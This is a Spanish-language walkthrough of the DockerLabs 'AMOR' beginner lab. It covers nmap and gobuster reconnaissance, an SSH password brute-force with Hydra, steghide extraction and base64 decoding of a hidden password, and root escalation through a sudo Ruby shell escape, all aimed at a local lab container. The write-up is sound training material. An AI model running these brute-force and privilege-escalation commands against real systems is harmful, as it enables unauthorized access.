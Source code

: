 ## DockerLabs - Reto AMOR


Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

🛠 Prerrequisitos
Sistema base: Kali Linux

Docker instalado:

bash
Copier
Modifier
sudo apt install docker.io
🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

bash
Copier
Modifier
scp -r amor kali@192.168.1.12:/home/kali/Documents/
Descomprimir recursos (si aplica):

bash
Copier
Modifier
unzip amor.zip
Otorgar permisos y ejecutar:

bash
Copier
Modifier
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

bash
Copier
Modifier
ip add
Descubrimiento de red:

bash
Copier
Modifier
sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:

bash
Copier
Modifier
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:

bash
Copier
Modifier
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

bash
Copier
Modifier
ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:

bash
Copier
Modifier
cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:
bash
Copier
Modifier
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

bash
Copier
Modifier
file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:

bash
Copier
Modifier
steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

bash
Copier
Modifier
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
🧑‍💻 Escalamiento de Privilegios
Accedemos como otro usuario:

bash
Copier
Modifier
su oscar
Comprobamos acceso con sudo:

bash
Copier
Modifier
sudo -l
Acceso a bash mediante Ruby:

bash
Copier
Modifier
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

bash
Copier
Modifier
whoami
🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.

🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo


📌 Créditos
Laboratorio original: dockerlabs.es 

